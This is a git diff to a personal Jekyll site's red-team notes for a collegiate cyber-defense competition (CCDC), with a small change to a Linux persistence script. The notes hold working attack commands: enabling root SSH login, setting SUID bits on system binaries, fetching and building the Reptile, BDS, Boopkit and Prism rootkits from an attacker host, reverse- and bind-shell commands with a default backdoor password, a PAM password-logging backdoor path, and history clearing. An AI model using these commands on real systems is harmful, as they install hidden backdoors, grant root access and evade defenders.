

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 1400 px high, scrolled down 1816 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -77,31 +77,15 @@
     - Then update GP with `gpupdate /force`
 
 **Linux:**
+- [PANIX](https://github.com/Aegrah/PANIX)
+  - One-stop shop for lots of persistence methods, this thing is a great reference
 - Todo:
-  - Create a big zipped folder containing all necessary files (attacker and client)
-    - This will be our kali-setup zip to download
-  - Write a persistence script that does the following
-    - Gets all relevant files from kali
-    - Backdoors PAM (adds the master password and logs new passwords)
-    - Permits root login: `sed -i '/PermitRootLogin/c\PermitRootLogin yes' /etc/ssh/sshd_config `
-    - Adds a Prism/boopkit service
-      - Hidden files lends itself EXTREMELY well to services
-        - However, once running, we can see it with `systemctl | grep "reptile"` so might need to set the overall prefix to something like "cpu"
-        - May also need to hide the prism/boopkit PID
-      - boopkit is better, but only works on 5.x+
-    - Add suid `ip`, `chroot`, and `ssh-keygen` (move `ssh-keygen` to `/usr/lib/openssh/`)
-      - `chmod u+s $(which env) $(which ip) $(which chroot)`
-    - Runs prism (on startup)
-    - Hides all of the above with a rootkit (and changing dates with something like `touch -d "May 26 2020" {file}`)
-      - This will likely require an internet connection or for our Kali to be able to provide necessary packages
-      - If kernel 4 or below, use reptile:
-        - `wget {kali_IP}:{port}/reptile.tar.gz && tar -xvf reptile.tar.gz && cd Reptile-master`
-        - `apt install gcc make build-essential linux-headers-$(uname -r)`
-        - Default options seem good, so `sed -i 's/reptile/redteam/g' config/defconfig && make defconfig && make && make install`
-      - If kernel 5 or above, use BDS
-        - Will need `sysctl kernel.ftrace_enabled=1` and also check if `make` and `gcc` exist
-    - Clear history: ` history -c && rm -f $HISTFILE`
-      - Having space is important, seems to prevent logging even on newer kernels
+  - Touch up script
+    - Clean up boopkit
+      - `/root/.boopkit/` and install dir `/boopkit/`
+    - Make sure all dates are changed as necessary
+    - Fix script not self-deleting
+  - Test on arch? Def test on centos/fedora
 - [Boopkit](https://github.com/krisnova/boopkit)
   - Sneaky amazing backdoor that functions via back checksum TCP packets
   - `wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.4.1.tar.gz`
@@ -110,12 +94,17 @@
     - We need to find a way to get the default network interface
   - Then, after making on Kali, can run `boopkit-boop -rhost {target} -rport 3535 -c '{command}' -lhost {kali_IP} -lport {kali_port}`
   - Listens on TCP 3545
+- [Prism](https://github.com/andreafabrizi/prism)
+  - `gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c` or if that fails just download and run `prism`
+  - Then run `sudo python2 sendPacket.py {target_IP} {password} {attacker_IP} {attacker_port}`
 - [BDS](https://github.com/bluedragonsecurity/bds_lkm_ftrace)
   - Good compatibility, works on 6.x tested
     - Let's check out the non-ftrace one and userland one?
     - We need to slightly modify to allow hiding arbitrary ports/sockets
     - Removed `rc.local` persistence - non-sneaky, and borks systems with checks for kernel tainting in startup
   - Supports hiding files, backdoors, privescs, and hiding network connections (though only its connection, but we can easily change that)
+    - Root with `kill 000`
+    - Open bind shell with `nc {target_IP} 1338` and then access with `nc {target_IP} 31337` with password `bluedragonsec`
   - Config
     - Can be specified in `kernelspace/includes/bds_vars.h`
 - [Reptile](https://web.archive.org/web/20250703011339/https://github.com/f0rb1dd3n/Reptile/archive/refs/heads/master.zip)
@@ -130,7 +119,8 @@
     - `make menuconfig`, `make`, and `make install`
   - Bugs:
     - Reptile will hide more stuff than necessary in affected directories
-    - Until we fix this, we can rename `/reptile` to `/reptiled`
+      - Until we fix this, we can rename `/reptile` to `/reptiled`
+    - Couldn't get kali-side build working, so we can use prism for the shell
   - Usage:
     - `/reptile/reptile_cmd {show/hide}` to show/hide all hidden files
     - `/reptile/reptile_cmd root` to get root
@@ -141,14 +131,15 @@
       - Works with both adding users to `/etc/passwd` and cron jobs
         - Actually, having some trouble getting it working with cron jobs
       - However, ssh seems resistant. Can't seem to permit root logins with a hidden line or add an hidden authorized keys file
-    - Couldn't get kali-side build working, so we can use prism for the shell
 - [Caraxes](https://github.com/ait-aecid/caraxes/)
   - Seems to be pretty good for 5.14-6.11, but a bit lacking on functionality
     - This one would make a nice starting place for building our own
   - Will need to uncomment the `hide_module()` function
   - Good for hiding files - we can set the word to hide in `rootkit.h`
-- [PANIX](https://github.com/Aegrah/PANIX)
-  - One-stop shop for lots of persistence methods, this thing is a great reference
+- [BrokePKG](https://github.com/R3tr074/brokepkg)
+  - Install dependencies with `./scripts/dependencies.sh`
+  - Config in `./include/config.h`
+  - Seems to work on 5.x and 6.x? Less functionality than BDS, but a good backup
 
 
 ## Domain Persistence
--- a/scripts/linux_persistence.sh.txt
+++ b/scripts/linux_persistence.sh.txt
@@ -21,7 +21,7 @@
 
 
 SLIVER_PAYLOAD_PATH="/etc/$RANDOM_ETC_DIR/$RANDOM_BINARY_NAME"
-PAM_SO_PATH="/etc/pam.d/pam_login.so"
+PAM_SO_PATH="/etc/pam.d/reptile_pam.so"
 PAM_PASSWORD_STORE="/etc/pam_out"
 
 
```
Also changed, not shown: 1 other file.
